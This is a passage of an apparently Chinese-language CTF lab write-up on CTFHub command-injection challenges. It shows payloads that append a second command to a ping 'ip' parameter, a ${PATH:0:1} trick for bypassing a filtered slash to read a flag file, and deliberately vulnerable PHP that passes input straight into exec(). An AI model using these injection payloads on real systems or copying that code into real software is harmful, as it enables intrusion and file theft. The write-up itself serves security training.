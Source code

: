 ![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736926143146-07ef14fe-9b83-4e0f-be0e-37056a76b0e3.png)

提示flag位置的文件出现 接着查看

```python
?ip=127.0.0.1;ls flag_is_here
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736926205379-0ca7195b-f21a-4bd7-a147-296723101c6a.png)

发现flag文件在目录flag_is_here下面 由于目录分割符被过滤了 所以我们可以用以下符号来替代

```python
${PATH:0:1}
${HOME:0:1}
```

```python
?ip=127.0.0.1;cat flag_is_here${PATH:0:1}flag_106852122422196.php
```

打开源代码发现flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736926434832-df7e3941-8f18-41c4-bf70-1eabdb7570ca.png)

也可通过多条命令语句的执行来读取flag

```python
?ip=127.0.0.1;cd flag_is_here;cat flag_106852122422196.php
```

### 过滤运算符
```python
<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/(\||\&)/", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?>

<!DOCTYPE html>
<html>
<head>
    <title>CTFHub 命令注入-过滤运算符</title>
</head>
<body>

<h1>CTFHub 命令注入-过滤运算符</h1>

<form action="#" method="GET">
    <label for="ip">IP : </label><br>
    <input type="text" id="ip" name="ip">
    <input type="submit" value="Ping">
</form>

<hr>

<pre>
<?php
```
